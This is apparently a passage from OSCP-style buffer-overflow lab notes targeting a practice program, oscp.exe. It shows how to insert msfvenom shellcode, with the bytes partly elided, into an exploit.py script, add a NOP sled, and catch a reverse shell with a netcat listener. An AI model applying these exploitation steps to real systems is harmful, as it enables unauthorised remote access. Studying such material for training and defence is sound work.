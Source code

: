     Copy the generated C code strings and integrate them into your exploit.py script payload variable using the following notation:
    
    ```
    payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
    "\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
    ...
    "\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
    "\x19\x53\xd0\x92\x19\x53\x2e\x1d")
    ```
    

# **Prepend NOPs**

- **Prepend NOPs**
    
    Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:
    
    ```
    padding = "\x90" * 16
    
    ```
    

# **Exploit!**

- **Exploit!**
    
    With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.
    
    Start a netcat listener on your Kali box using the LPORT you specified in the msfvenom command (4444 if you didn't change it).
    
    Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!